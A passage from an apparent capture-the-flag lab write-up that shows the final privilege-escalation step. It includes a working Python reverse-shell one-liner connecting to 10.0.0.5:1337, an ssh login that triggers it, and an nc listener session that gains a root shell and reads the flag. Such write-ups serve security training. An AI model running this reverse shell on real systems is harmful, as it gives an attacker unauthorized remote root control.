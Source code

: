 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.5",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

For some reasons, I could not spawn reverse shell while executing it with `bash` or `nc` so I decided to try `python` reverse shell after that. 

Now let's log in once again with `ssh` to trigger the script. 

{% highlight text %}
root@kali:~# ssh baksteen@10.0.0.4
baksteen@10.0.0.4's password: 
{% endhighlight %}

And check on our listener. 

{% highlight text %}
root@kali:~# nc -lvp 1337
listening on [any] 1337 ...
10.0.0.4: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.4] 43610
/bin/sh: 0: can't access tty; job control turned offW
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
{% endhighlight %}